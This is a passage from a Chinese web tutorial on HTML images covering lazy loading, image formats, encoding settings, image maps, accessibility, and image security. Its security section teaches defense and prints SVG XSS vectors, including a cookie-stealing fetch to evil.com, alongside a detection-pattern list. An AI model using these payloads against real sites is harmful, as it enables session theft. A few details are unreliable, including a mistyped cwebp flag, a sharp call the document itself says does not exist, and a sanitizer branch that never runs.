  const file = e.target.files[0]
  if (!file) return

  const { bitmap, width, height } = await pipeline.createFromFile(file, 800, 600)

  // 绘制到预览 Canvas
  const previewCanvas = document.getElementById('preview')
  previewCanvas.width = width
  previewCanvas.height = height
  previewCanvas.getContext('2d').drawImage(bitmap, 0, 0)

  // 转换为 Blob 用于上传
  previewCanvas.toBlob((blob) => {
    console.log(`压缩后大小: ${(blob.size / 1024).toFixed(1)} KB`)
  }, 'image/webp', 0.85)
})

// 场景 2：高性能 Canvas 画廊
const galleryCanvas = document.getElementById('gallery-canvas')
galleryCanvas.width = 1200
await pipeline.renderGallery(
  ['img1.jpg', 'img2.jpg', 'img3.jpg', 'img4.jpg', 'img5.jpg', 'img6.jpg'],
  galleryCanvas,
  3
)
```

### IntersectionObserver 懒加载原理

虽然 `loading="lazy"` 已经原生支持懒加载，但 `IntersectionObserver` 提供了更精细的控制能力，包括自定义 rootMargin、threshold、加载动画触发等。

```javascript
/**
 * LazyLoadImageManager — 基于 IntersectionObserver 的企业级懒加载管理器
 *
 * 功能：
 * - 自定义 rootMargin / threshold
 * - 支持 LQIP（低质量占位符）过渡
 * - 断网重试机制
 * - 性能监控上报
 * - 与 loading="lazy" 优雅降级
 */
class LazyLoadImageManager {
  constructor(options = {}) {
    this.rootMargin = options.rootMargin || '200px 0px'   // 提前 200px 开始加载
    this.threshold = options.threshold || 0.01             // 只要 1% 可见就触发
    this.placeholder = options.placeholder || null         // 占位图 URL
    this.retryCount = options.retryCount || 2              // 失败重试次数
    this.onLoadCallback = options.onLoad || null           // 加载成功回调
    this.onErrorCallback = options.onError || null         // 加载失败回调

    this.observer = null
    this.loadedImages = new WeakSet()                      // 避免重复加载
  }

  init() {
    // 创建观察器实例
    this.observer = new IntersectionObserver(
      (entries) => this._handleIntersection(entries),
      {
        root: null,                    // 视口作为根
        rootMargin: this.rootMargin,   // 扩展视口边界
        threshold: [this.threshold],   // 回调阈值
      }
    )

    // 查找所有待懒加载的图像
    const lazyImages = document.querySelectorAll('img[data-src]')
    lazyImages.forEach((img) => this.observe(img))

    console.log(`🖼️ LazyLoadManager initialized: ${lazyImages.length} images observed`)
  }

  /** 将图像加入观察队列 */
  observe(img) {
    if (this.loadedImages.has(img)) return

    // 显示占位图
    if (this.placeholder && !img.src) {
      img.src = this.placeholder
      img.classList.add('lazy-placeholder')
    }

    this.observer.observe(img)
  }

  /** 处理交叉事件 */
  _handleIntersection(entries) {
    entries.forEach((entry) => {
      if (!entry.isIntersecting) return

      const img = entry.target
      this._loadImage(img)

      // 停止观察该元素
      this.observer.unobserve(img)
    })
  }

  /** 执行图像加载 */
  async _loadImage(img, retry = 0) {
    const realSrc = img.dataset.src
    if (!realSrc) return

    try {
      // 使用 decode() 实现非阻塞加载
      img.src = realSrc
      await img.decode()

      // 加载成功
      img.classList.remove('lazy-placeholder')
      img.classList.add('lazy-loaded')
      img.removeAttribute('data-src') // 清理属性
      this.loadedImages.add(img)

      this.onLoadCallback?.(img)
    } catch (error) {
      if (retry < this.retryCount) {
        // 延迟重试
        setTimeout(() => this._loadImage(img, retry + 1), 1000 * (retry + 1))
      } else {
        // 最终失败
        img.classList.add('lazy-error')
        this.onErrorCallback?.(img, error)
      }
    }
  }

  /** 销毁观察器，释放资源 */
  destroy() {
    this.observer?.disconnect()
    this.observer = null
  }
}

// ===== 初始化使用 =====

document.addEventListener('DOMContentLoaded', () => {
  const lazyManager = new LazyLoadImageManager({
    rootMargin: '300px 0px',          // 提前 300px 开始加载（更激进的预加载）
    placeholder: 'data:image/svg+xml,<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1 1"/>',
    retryCount: 2,
    onLoad: (img) => {
      // 可选：性能监控
      performance.mark(`image-loaded-${img.src.slice(-10)}`)
    },
    onError: (img) => {
      img.alt = '图像加载失败'
    },
  })

  lazyManager.init()
})

// ✅ HTML 中配合使用：
// 

// ❌ 不推荐：手动滚动监听（性能差）
// window.addEventListener('scroll', () => {
//   images.forEach(img => {
//     const rect = img.getBoundingClientRect()
//     if (rect.top < window.innerHeight) {
//       img.src = img.dataset.src
//     }
//   })
// })
```

### 各 API 性能对比

| API | 用途 | 主线程阻塞 | 适用场景 | 浏览器支持 |
|-----|------|-----------|----------|-----------|
| **`` + `src`** | 基础图像显示 | 解码时可能阻塞 | 简单场景 | 全部 |
| **`Image()` 构造函数** | 预加载缓存 | 否（不插入 DOM） | Hover 预加载、轮播预测 | 全部 |
| **`img.decode()`** | 异步解码 | **不阻塞** | 动画场景、首屏优化 | 现代浏览器 |
| **`createImageBitmap()`** | 位图创建与处理 | 可异步 | Canvas 渲染、Web Worker | 现代浏览器 |
| **`loading="lazy"`** | 原生懒加载 | — | 非首屏图像 | Chromium 76+、Firefox 75+、Safari 15.4+ |
| **`IntersectionObserver`** | 自定义懒加载 | — | 精细控制、动画过渡 | 全部 |

::: tip 选型建议
- **普通展示**：`` + `loading="lazy"` + `decoding="async"`
- **预加载需求**：`Image()` 构造函数 + 缓存管理
- **动画/交互密集页**：`decode()` 确保 60fps
- **Canvas 游戏/编辑器**：`createImageBitmap()` + WebGL
- **复杂业务逻辑**：`IntersectionObserver` 自定义策略
:::

## 图像格式详解

选择合适的图像格式是性能优化的关键环节，不同格式各有优劣。

### 传统格式

#### JPEG（Joint Photographic Experts Group）

**特点：**

- 有损压缩，适合照片和复杂图像
- 文件小，加载快
- 不支持透明
- 压缩质量可调（通常 60-80% 效果最佳）

**适用场景：**

- 照片、复杂图像
- 背景图片
- 不需要透明的图像

**优化建议：**

```html
<!-- 使用适当的压缩质量 -->


<!-- 使用渐进式 JPEG（Progressive JPEG） -->
<!-- 渐进式 JPEG 会先显示低质量版本，逐步清晰 -->
```

#### PNG（Portable Network Graphics）

**特点：**

- 无损压缩，质量高
- 支持透明（Alpha 通道）
- 文件相对较大
- 分为 PNG-8（256 色）和 PNG-24（真彩色）

**适用场景：**

- 需要透明背景的图像
- 图标、Logo
- 简单图形、截图

**优化建议：**

```html
<!-- 简单图标使用 PNG-8 -->


<!-- 需要半透明效果使用 PNG-24 -->

```

#### GIF（Graphics Interchange Format）

**特点：**

- 支持动画
- 仅支持 256 色
- 支持透明（但不支持半透明）
- 文件可能很大

**适用场景：**

- 简单动画
- 表情包
- 简单的动态图标

**替代方案：**

- 动画可考虑使用 WebP 动画或 APNG
- 视频内容建议使用 `<video>` 标签或 MP4 格式

### 现代格式

#### WebP

**特点：**

- 同时支持有损和无损压缩
- 支持透明（Alpha 通道）
- 压缩率比 JPEG 高 25-35%
- 比 PNG 文件小 26%
- 支持动画
- 浏览器支持度良好（约 97%）

**适用场景：**

- 几乎所有图像场景
- 替代 JPEG 和 PNG

**使用示例：**

```html
<!-- 使用 picture 元素提供降级方案 -->
<picture>
  <source srcset="image.webp" type="image/webp" />
  <source srcset="image.jpg" type="image/jpeg" />
  
</picture>

<!-- 服务端内容协商（需要服务器配置） -->

```

**转换工具：**

```bash
# 使用 cwebp 工具转换
cwebp -q 80 input.jpg -o output.webp

# 批量转换
for file in *.jpg; do
  cwebp -q 80 "$file" -o "${file%.jpg}.webp"
done
```

#### AVIF

**特点：**

- 最新图像格式，基于 AV1 视频编码
- 压缩率最高（比 WebP 再小 20-50%，比 JPEG 小 50% 以上）
- 支持 HDR（高动态范围）和宽色域（Wide Color Gamut）
- 支持透明和动画
- 浏览器支持度良好（Chrome、Firefox、Safari 16+、Edge 均已支持，全球覆盖率约 95%）

**适用场景：**

- 追求极致压缩率的场景
- HDR 图像
- 照片和复杂图像的首选格式
- 现代浏览器项目

**使用示例：**

```html
<picture>
  <source srcset="image.avif" type="image/avif" />
  <source srcset="image.webp" type="image/webp" />
  <source srcset="image.jpg" type="image/jpeg" />
  
</picture>
```

**转换工具：**

```bash
# 使用 avifenc 工具转换
avifenc input.jpg output.avif

# 使用 squoosh CLI（Google 已归档 CLI 仓库，@squoosh/cli npm 包仍可用；
# 维护中的社区 fork 为 @frostoven/squoosh-cli）
npx @squoosh/cli --avif input.jpg

# 使用 sharp（Node.js）
npx sharp-cli -i input.jpg -o output.avif -f avif --quality 65
```

**AVIF 编码参数建议：**

| 参数            | 推荐值 | 说明                                  |
| --------------- | ------ | ------------------------------------- |
| 质量（quality） | 60-80  | 照片类 65 即可达到 JPEG 80 的视觉质量 |
| 速度（speed）   | 4-6    | 编码速度与压缩率的平衡点              |
| 色度子采样      | 4:2:0  | 照片推荐；需要锐利文字/线条时用 4:4:4 |

::: tip
AVIF 在相同视觉质量下文件体积远小于 JPEG 和 WebP，建议作为首选格式，通过 `<picture>` 提供回退即可兼顾旧浏览器。
:::

#### SVG（Scalable Vector Graphics）

**特点：**

- 矢量图形，无限缩放不失真
- 基于 XML，可编辑、可编程
- 文件小（简单图形）
- 支持动画和交互
- 可内联使用

**适用场景：**

- 图标、Logo
- 简单图形、插画
- 图表、数据可视化
- 需要缩放的图形

**使用方式：**

```html
<!-- 外部引用 -->


<!-- 内联 SVG -->
<svg width="100" height="100" viewBox="0 0 100 100">
  <circle cx="50" cy="50" r="40" fill="blue" />
</svg>

<!-- 作为 CSS 背景 -->
<style>
  .icon {
    background-image: url("icon.svg");
  }
</style>
```

**优化建议：**

```html
<!-- 使用 SVGO 压缩 SVG -->
<!-- 原始 SVG -->
<svg width="100" height="100">
  <title>图标</title>
  <desc>一个蓝色圆形</desc>
  <circle cx="50" cy="50" r="40" fill="#0000FF" />
</svg>

<!-- 优化后 -->
<svg width="100" height="100" aria-label="图标">
  <circle cx="50" cy="50" r="40" fill="#00F" />
</svg>
```

### 格式选择指南

根据以下决策树选择合适的图像格式：



### WebP / AVIF 编码参数深度调优

不同场景下，编码参数的选择对文件体积和视觉质量有显著影响。以下是经过实践验证的参数推荐矩阵：

#### WebP 编码参数矩阵

| 场景 | quality | method | 过滤强度 | 推荐工具 | 说明 |
|------|---------|--------|----------|----------|------|
| **照片类（风景/人像）** | 75-82 | 5-6 | 默认 | cwebp/sharp | 有损压缩，视觉无损 |
| **产品图（电商）** | 80-85 | 6 | 弱 | cwebp/sharp | 需保留细节和色彩准确性 |
| **截图/UI 界面** | 90-100（无损）或 85+（有损） | 6 | 强 | cwebp | 文字/线条需高保真 |
| **图标/Logo** | 无损模式 | 6 | - | cwebp | 文件小且无失真 |
| **头像缩略图** | 70-75 | 4 | 默认 | sharp | 小尺寸可接受轻微质量损失 |
| **背景大图** | 65-75 | 5-6 | 默认 | cwebp/sharp | 视觉优先，追求最小体积 |

```bash
# WebP 编码示例：高质量照片
cwebp -q 80 -m 6 -sharp_yess input.jpg -o output.webp

# WebP 编码示例：无损压缩（适合图标）
cwebp -lossless -z 9 input.png -o output.webp

# 使用 sharp（Node.js）批量处理
npx sharp-cli -i photo.jpg -o photo.webp -f webp \
  --webp-quality 80 --webp-effort 6
```

#### AVIF 编码参数矩阵

| 场景 | quality | speed | 色度子采样 | tileRowsLog2 | 说明 |
|------|---------|-------|------------|--------------|------|
| **照片类（风景/人像）** | 60-70 | 5-6 | 4:2:0 | 0 | 最佳压缩率/质量平衡 |
| **产品图（电商）** | 65-75 | 5 | 4:2:2 | 0 | 需更好色彩还原 |
| **HDR 图像** | 70-80 | 6 | 4:2:0 | 0 | 充分利用 AVIF 的 HDR 能力 |
| **截图/UI 界面** | 70-80 | 4-5 | 4:4:4 | 0 | 文字/线条需要全分辨率色度 |
| **头像缩略图** | 55-65 | 6 | 4:2:0 | 0 | 小尺寸场景可激进压缩 |
| **Web 发布首选** | 63-68 | 6 | 4:2:0 | 0 | 综合推荐值 |

```bash
# AVIF 编码示例：标准照片
avifenc --min 55 --max 65 --speed 6 input.jpg output.avif

# AVIF 编码示例：高画质产品图
avifenc --min 65 --max 75 --speed 5 --yuv 422 input.jpg output.avif

# 使用 sharp（Node.js）
npx sharp-cli -i photo.jpg -o photo.avif -f avif \
  --avif-quality 65 --avif-effort 6

# 使用 squoosh CLI（支持多种格式对比）
npx @squoosh/cli --avif --webp input.jpg
```

::: tip **编码参数选择原则**
- **quality 值不是越高越好**：JPEG 80+ 和 AVIF 65+ 在大多数场景下已达到视觉无损
- **method/speed 权衡**：值越大压缩越好但编码越慢，CI/CD 构建时可用最大值
- **照片 vs 截图**：照片用 4:2:0 色度子采样即可；含文字的图像建议 4:4:4
:::

### 格式对比表

| 格式 | 压缩类型  | 透明 | 动画 | 文件大小 | 浏览器支持 | 推荐度     |
| ---- | --------- | ---- | ---- | -------- | ---------- | ---------- |
| JPEG | 有损      | ✗    | ✗    | 中       | ★★★★★      | ⭐⭐⭐     |
| PNG  | 无损      | ✓    | ✗    | 大       | ★★★★★      | ⭐⭐⭐     |
| GIF  | 无损      | 部分 | ✓    | 大       | ★★★★★      | ⭐⭐       |
| WebP | 有损/无损 | ✓    | ✓    | 小       | ★★★★☆      | ⭐⭐⭐⭐⭐ |
| AVIF | 有损/无损 | ✓    | ✓    | 最小     | ★★★★☆      | ⭐⭐⭐⭐⭐ |
| SVG  | 无损      | ✓    | ✓    | 最小     | ★★★★★      | ⭐⭐⭐⭐⭐ |

### 实用工具

**在线压缩工具：**

- [Squoosh](https://squoosh.app/) - Google 出品的图像压缩工具
- [TinyPNG](https://tinypng.com/) - PNG/JPEG 智能压缩
- [ImageOptim](https://imageoptim.com/) - Mac 桌面工具

**命令行工具：**

```bash
# WebP 转换
cwebp -q 80 input.png -o output.webp

# AVIF 转换
avifenc input.jpg output.avif

# PNG 压缩
pngquant --quality=65-80 input.png --output output.png
optipng -o7 input.png

# JPEG 优化
jpegoptim --max=80 input.jpg

# SVG 优化
svgo input.svg -o output.svg
```

**构建工具集成：**

```javascript
// Webpack 配置示例
module.exports = {
  module: {
    rules: [
      {
        test: /\.(png|jpe?g|gif|webp)$/i,
        use: [
          {
            loader: "image-webpack-loader",
            options: {
              mozjpeg: { quality: 80 },
              webp: { quality: 80 },
              pngquant: { quality: [0.65, 0.8] }
            }
          }
        ]
      }
    ]
  }
}
```

## 图像超链接

在 HTML 网页中使用图像时，可以像文字一样为图像设置超链接，还可以将图像切割成不同的区域，分别设置超链接，这样的区域被称为热区。为整幅图像文件设置超链接非常简单，只需要将 `` 标签包含在 `<a>` 超链接标签中，并将超链接标签的 `href` 属性设置为指定的链接地址即可

```html
<a href="链接地址" target="目标窗口的打开方式"></a>
```

使用示例：

```html
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a><br />
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a>
```

### 图像热区链接

为图像设置超链接时，除了对整个图像进行设置，还可以将图像划分成不同的区域进行设置，划分成的不同区域被称为热区，而包含热区的图像被称为映射图像。使用 usemap 属性来设置映射图像名称（注意：映射图像名称前需要加 `#` 符号），该名称需要通过 `<map>` 标签和 `<area>` 标签的结合来设置：

```html

<map name="映射图像名称">
  <area shape="热区形状" coords="热区坐标" href="链接地址" />
</map>
```

该语法首先需要在 `<map>` 标签中使用 name 属性定义映射图像的名称，然后在 `<area>` 标签中，定义热区的形状、坐标，以及链接地址。`<area>` 标签中的属性介绍如下：

- shape 属性：定义热区形状，可以取值为 rect（矩形区域）、circle（圆形区域）以及 poly（多边形区域）
- coords 属性：设置热区坐标，对于不同形状来说，coords 取值也不同。
  - 如果热区形状为 rect，则 coords 取值为 left、top、right 和 bottom，即矩形两个对角的点坐标；
  - 如果热区形状为 circle，则 coords 取值为 center-x、center-y 和 radius，即圆形的圆心坐标 (_x_,_y_) 与半径
  - 如果热区形状为 poly，则 coords 取值需要按照顺序（可以是逆时针，也可以是顺时针）取多边形各个点的 _x_、_y_ 坐标值

- href 属性：设置热区的链接地址


```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>设置图像热区链接</title>
    <link href="css/mr-style.css" rel="stylesheet" type="text/css" />
  </head>

  <body>
    <div id="mr-cont">
      
      <map name="mr-hotpoint">
        <!--left、top、right和bottom-->
        <area
          shape="rect"
          coords="45,126,143,203"
          href="img/ad.jpg"
          title="电脑精装"
          target="_blank" />
        <area
          shape="rect"
          coords="410,80,508,174"
          href="img/ad4.png"
          title="常用家电"
          target="_blank" />
        <area
          shape="rect"
          coords="30,250,130,350"
          href="img/ad1.png"
          title="手机数码"
          target="_blank" />
        <area
          shape="rect"
          coords="430,224,528,318"
          href="img/ad3.png"
          title="鲜货直达"
          target="_blank" />
      </map>
    </div>
  </body>
</html>
```

**热区坐标工具：**

可以使用在线工具或图像编辑软件（如 Photoshop、GIMP）来获取精确的坐标值。

**可访问性改进：**

```html

<map name="navigation">
  <area shape="rect" coords="0,0,100,50" href="/home" alt="首页" title="返回首页" />
  <area shape="rect" coords="100,0,200,50" href="/about" alt="关于我们" title="了解我们" />
</map>
```

**注意事项：**

1. 每个 `<area>` 都应提供 `alt` 属性
2. 使用 `title` 提供额外提示信息
3. 确保热区大小适合点击（移动端至少 44x44px）
4. 考虑移动端的触摸体验

## 可访问性

图像的可访问性对于视障用户和搜索引擎都至关重要。

### alt 属性最佳实践

**信息性图像：**

```html
<!-- ✅ 好的 alt 文本 -->


<!-- ❌ 不好的 alt 文本 -->


```

**装饰性图像：**

```html
<!-- ✅ 使用空 alt -->


<!-- 或使用 CSS 背景图 -->
<div class="decorative-line" role="presentation" aria-hidden="true"></div>
```

**功能性图像：**

```html
<!-- ✅ 描述功能 -->
<button type="button">
  
</button>

<!-- 如果按钮已有文本，图像可以装饰性 -->
<button type="button">
  
  打印
</button>
```

### figure 和 figcaption

使用语义化标签为图像添加说明：

```html
<figure>
  
  <figcaption>拍摄于2024年1月，使用 Canon EOS R5</figcaption>
</figure>
```

### ARIA 属性

```html
<!-- 装饰性图像 -->


<!-- 复杂图像使用 aria-describedby -->

<p id="diagram-desc">系统由前端、后端和数据库三层组成...</p>
```

## 图像安全与防护体系

图像资源在 Web 安全中是一个常被忽视的攻击面。从防盗链、XSS 到隐私泄露，构建完整的图像安全体系至关重要。

### Hotlink 防盗链

防盗链（Hotlink Protection）防止其他网站直接引用你的图像 URL，避免**带宽盗用**和**未授权使用**。

::: danger 风险
被盗链时，你的服务器带宽和 CDN 流量费用会被他人消耗，且无法控制图像的使用场景。
:::

#### 方案 1：Referrer-Policy（前端）

```html
<!-- ✅ 推荐：在引用第三方图像时不发送 Referrer -->


<!-- 或在 <head> 中全局设置（影响所有请求） -->
<meta name="referrer" content="no-referrer" />
```

```html
<!-- ❌ 不推荐：默认会发送完整 Referrer，暴露来源页面 URL -->

```

**Referrer-Policy 可选值：**

| 值 | 行为 | 适用场景 |
|---|------|----------|
| `no-referrer` | 不发送任何 Referrer | 引用外部 CDN / 隐私敏感 |
| `strict-origin` | 仅发送 Origin（不含路径） | 一般场景推荐 |
| `strict-origin-when-cross-origin` | 同源完整，跨域仅 Origin | **默认推荐值** |
| `origin-when-cross-origin` | 同源完整，跨域含路径 | 需要跨域统计时 |
| `unsafe-url` | 始终发送完整 URL | ⚠️ 可能泄露敏感信息 |

#### 方案 2：Nginx 配置（服务端）

```nginx
# ✅ Nginx 防盗链配置
location ~* \.(jpg|jpeg|png|gif|webp|avif|svg)$ {
    valid_referers none blocked server_names
                   *.yourdomain.com
                   ~\.google\.
                   ~\.bing\.

    if ($invalid_referer) {
        # 返回 403 或重定向到默认图片
        return 403;
        # 或: rewrite ^/ /static/default-image.jpg last;
    }

    expires 30d;
    add_header Cache-Control "public, immutable";
}

# 更精细的配置：允许特定 Referer 模式
location /images/ {
    valid_referers none blocked yourdomain.com
                   *.yourdomain.com;

    if ($invalid_referer) {
        return 403;
    }
}
```

#### 方案 3：签名 URL + 时效性（CDN 层）

```javascript
// 使用阿里云 OSS 签名 URL 示例
const crypto = require('crypto')

function generateSignedUrl(objectKey, expiresIn = 3600) {
  const expiration = Math.floor(Date.now() / 1000) + expiresIn
  const signStr = `GET\n\n\n${expiration}\n/${bucket}/${objectKey}`
  
  const signature = crypto
    .createHmac('sha1', accessKeySecret)
    .update(signStr)
    .digest('base64')
  
  const encodedSign = encodeURIComponent(signature)
  
  return `https://${bucket}.oss-cn-beijing.aliyuncs.com/${objectKey}` +
         `?OSSAccessKeyId=${accessKeyId}&Expires=${expiration}&Signature=${encodedSign}`
}

// 生成的 URL 在 1 小时后自动失效，即使被盗链也无法长期使用
console.log(generateSignedUrl('images/photo.jpg'))
// → https://bucket.oss...?OSSAccessKeyId=xxx&Expires=1718xxx&Signature=xxx
```

### SVG XSS 攻击向量与防护

SVG 本质上是 XML 文档，可以包含 `<script>` 标签、事件处理器等，如果被恶意利用可导致 **XSS（跨站脚本攻击）**。

#### 常见 SVG 攻击向量

```xml
<!-- ❌ 危险：内联 SVG 包含脚本（用户上传场景） -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">
  <circle cx="50" cy="50" r="40" />
</svg>

<!-- ❌ 危险：使用 foreignObject 嵌入 HTML -->
<svg xmlns="http://www.w3.org/2000/svg">
  <foreignObject>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
    </body>
  </foreignObject>
</svg>

<!-- ❌ 危险：SVG 动画触发脚本 -->
<svg xmlns="http://www.w3.org/2000/svg">
  <set attributeName="onmouseover" to="alert(1)" />
</svg>

<!-- ❌ 危险：data URI 中的 SVG -->
" />
```

#### 防护策略

```javascript
/**
 * ImageSanitizer — 用户上传图片的安全扫描器
 *
 * 功能：
 * - 检测文件头 Magic Bytes
 * - 扫描 SVG 中的危险标签/属性
 * - 转换为安全格式（如 PNG）
 */
class ImageSanitizer {
  /**
   * 检测文件是否为真实图片（非伪装的 SVG/HTML）
   * @param {File|Blob} file
   * @returns {Promise<{safe: boolean, reason?: string}>}
   */
  async scan(file) {
    const buffer = await file.slice(0, 32).arrayBuffer()
    const header = new Uint8Array(buffer)

    // 1. 检查 Magic Bytes
    const signatures = [
      { sig: [0xFF, 0xD8, 0xFF], type: 'JPEG' },     // JPEG
      { sig: [0x89, 0x50, 0x4E, 0x47], type: 'PNG' }, // PNG
      { sig: [0x47, 0x49, 0x46, 0x38], type: 'GIF' }, // GIF
      { sig: [0x52, 0x49, 0x46, 0x46], type: 'WebP' }, // WebP (RIFF....WEBP)
      { sig: [0x00, 0x00, 0x00, 0x18, 0x66, 0x74, 0x79, 0x70], type: 'AVIF' }, // AVIF
    ]

    const isKnownImage = signatures.some(({ sig }) =>
      sig.every((byte, i) => header[i] === byte)
    )

    if (!isKnownImage) {
      return { safe: false, reason: '未知的文件格式签名' }
    }

    // 2. 如果是 SVG，进行内容扫描
    if (this._isSvg(header)) {
      return this._scanSvgContent(file)
    }

    return { safe: true }
  }

  /** 扫描 SVG 内容中的危险元素 */
  async _scanSvgContent(file) {
    const text = await file.text()
    const lowerText = text.toLowerCase()

    // 危险模式列表
    const dangerousPatterns = [
      /<script[\s>]/i,
      /on\w+\s*=/i,           // 事件处理器
      /<foreignobject/i,
      /<use\s+href/i,
      /javascript:/i,
      /data:\s*text\/html/i,
      /expression\s*\(/i,     // CSS expression（IE）
      /url\s*\(\s*["']?\s*javascript:/i,
    ]

    for (const pattern of dangerousPatterns) {
      if (pattern.test(text)) {
        return { safe: false, reason: `检测到危险内容: ${pattern}` }
      }
    }

    // ✅ SVG 通过扫描但仍建议转换为栅格图
    return { 
      safe: true, 
      warning: 'SVG 已通过基础扫描，建议转为 PNG 后再存储',
      shouldConvertToRaster: true 
    }
  }

  _isSvg(header) {
    // SVG 文件通常以 <?xml 或 <svg 开头
    const str = String.fromCharCode(...header.slice(0, 4))
    return str.startsWith('<?xm') || str.startsWith('<svg')
  }
}

// ===== 使用示例 =====

const uploader = document.getElementById('file-input')
uploader.addEventListener('change', async (e) => {
  const file = e.target.files[0]
  if (!file) return

  const sanitizer = new ImageSanitizer()
  const result = await sanitizer.scan(file)

  if (!result.safe) {
    alert(`⚠️ 上传失败：${result.reason}`)
    return
  }

  console.log('✅ 图片通过安全检测')
  // 继续上传流程...
})
```

::: tip 生产环境建议
- **优先接受 JPEG/PNG/WebP**，拒绝或转换 SVG 上传
- 使用 **Canvas 重绘** 用户上传的图片（清除所有元数据和潜在 payload）
- 服务端使用 **imagemagick** 的 `-strip` 参数清除 EXIF 和注释
- 设置 **CSP（Content Security Policy）** 限制脚本执行
:::

### CSP img-src 指令配置

Content Security Policy（内容安全策略）的 `img-src` 指令可以严格控制图像的合法来源。

```html
<!-- HTTP 响应头中设置 CSP -->
<!--
Content-Security-Policy: default-src 'self'; 
                         img-src 'self' https://cdn.example.com data:;
                         script-src 'self'
-->
```

**常用 img-src 配置：**

| 配置值 | 含义 | 风险等级 |
|--------|------|----------|
| `'self'` | 仅允许同源 | 🟢 最安全 |
| `https://cdn.example.com` | 允许指定域名 | 🟢 安全 |
| `data:` | 允许 Data URI | 🟡 中等（有 XSS 风险） |
| `blob:` | 允许 Blob URI | 🟡 中等 |
| `*` | 允许任意来源 | 🔴 危险 |

```html
<!-- ✅ 推荐配置：限制为自有域名 + 可信 CDN -->
<meta http-equiv="Content-Security-Policy"
      content="img-src 'self' https://cdn.yourdomain.com https://images.your-cdn.com;" />

<!-- ❌ 危险配置：允许任意来源加载图像 -->
<meta http-equiv="Content-Security-Policy" content="img-src *;" />
```

### EXIF 隐私泄露风险

EXIF（Exchangeable Image File Format）元数据可能包含**拍摄设备、GPS 定位、拍摄时间**等敏感信息。

::: warning 隐患
用户上传的照片若未经处理直接公开访问，可能泄露其地理位置等隐私信息。
:::

```javascript
/**
 * ExifStripper — EXIF 元数据清除工具
 */
class ExifStripper {
  /**
   * 清除图像中的 EXIF 数据
   * @param {File} imageFile - 原始图像文件
   * @returns {Promise<Blob>} - 清除后的 Blob
   */
  static async strip(imageFile) {
    return new Promise((resolve, reject) => {
      const reader = new FileReader()
      
      reader.onload = () => {
        const img = new Image()
        
        img.onload = () => {
          // 创建 Canvas 并重新绘制（自动丢弃 EXIF）
          const canvas = document.createElement('canvas')
          canvas.width = img.naturalWidth
          canvas.height = img.naturalHeight
          
          const ctx = canvas.getContext('2d')
          ctx.drawImage(img, 0, 0)
          
          // 导出为新文件（不含任何元数据）
          canvas.toBlob(
            (blob) => resolve(blob),
            'image/jpeg',
            0.92
          )
        }
        
        img.onerror = reject
        img.src = reader.result
      }
      
      reader.onerror = reject
      reader.readAsDataURL(imageFile)
    })
  }
}

// ===== 使用示例 =====

uploadForm.addEventListener('submit', async (e) => {
  e.preventDefault()
  
  const file = fileInput.files[0]
  if (!file) return
  
  // 清除 EXIF 后再上传
  const cleanBlob = await ExifStripper.strip(file)
  
  const formData = new FormData()
  formData.append('image', cleanBlob, 'cleaned-' + file.name)
  
  await fetch('/api/upload', { method: 'POST', body: formData })
})
```

**服务端清除方案（Node.js + sharp）：**

```javascript
const sharp = require('sharp')

async function stripExif(inputPath, outputPath) {
  await sharp(inputPath)
    .rotate()              // 根据 EXIF Orientation 自动旋转后再丢弃 EXIF
    .toFile(outputPath)    // sharp 默认不保留元数据（EXIF 已丢弃，保留需显式 .withMetadata()）
  
  console.log(`✓ EXIF 已清除: ${outputPath}`)
}

// 注：sharp 的 .withMetadata() 是“保留元数据”的开关，不存在 .withMetadata(false) 写法
```

### 用户上传图片安全扫描策略汇总

| 安全威胁 | 攻击方式 | 防护措施 | 优先级 |
|---------|---------|---------|--------|
| **XSS** | SVG 内嵌 `<script>` / 事件处理器 | 禁止 SVG 上传或 sanitize；CSP | 🔴 高 |
| **带宽盗用** | 外站 `` 直接引用你的 URL | Nginx referer 检查；签名 URL | 🟡 中 |
| **隐私泄露** | EXIF GPS 坐标 / 设备信息 | Canvas 重绘；sharp `.withMetadata(false)` | 🔴 高 |
| **DoS** | 巨大图像 / 像素炸弹 | 限制文件大小；服务端 resize | 🔴 高 |
| **伪装攻击** | 伪造文件扩展名 / Magic Bytes | 检查文件头；MIME type 白名单 | 🟡 中 |

## 最佳实践

### 1. 始终提供 alt 属性

```html
<!-- ✅ 正确 -->


<!-- ❌ 错误 -->

```

### 2. 使用语义化 HTML

```html
<!-- ✅ 使用 figure -->
<figure>
  
  <figcaption>照片说明</figcaption>
</figure>

<!-- ❌ 避免 -->
<div>
  
  <p>照片说明</p>
</div>
```

### 3. 优化图像大小

- 使用适当的图像格式（WebP、AVIF）
- 压缩图像文件
- 提供多种尺寸（srcset）
- 使用懒加载（loading="lazy"）

### 4. 响应式设计

```html
<!-- ✅ 响应式图像 -->

```

### 5. 性能优化

```html
<!-- 首屏图像：立即加载，高优先级 -->


<!-- 非首屏图像：懒加载，低优先级 -->

```

### 6. 防止布局偏移

```html
<!-- ✅ 设置宽高属性 -->

```

### 7. 实战案例：商品列表图片

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>商品列表示例</title>
    <style>
      .product-list {
        max-width: 1200px;
        margin: 0 auto;
        display: grid;
        grid-template-columns: repeat(auto-fit, minmax(260px, 1fr));
        gap: 24px;
      }

      .product-card {
        border: 1px solid #eee;
        border-radius: 8px;
        padding: 16px;
      }

      .product-image {
        display: block;
        width: 100%;
        height: auto;
        margin-bottom: 12px;
      }

      .product-title {
        font-size: 16px;
        margin: 0 0 8px;
      }

      .product-price {
        color: #e91e63;
        font-weight: bold;
      }
    </style>
  </head>
  <body>
    <section class="product-list">
      <article class="product-card">
        <figure>
          <picture>
            <source srcset="phone-400.avif 400w, phone-800.avif 800w" type="image/avif" />
            <source srcset="phone-400.webp 400w, phone-800.webp 800w" type="image/webp" />
            
          </picture>
          <figcaption class="product-title">蓝色 128GB 智能手机</figcaption>
        </figure>
        <p class="product-price">¥3,999</p>
      </article>
    </section>
  </body>
</html>
```

## 图像 SEO 最佳实践

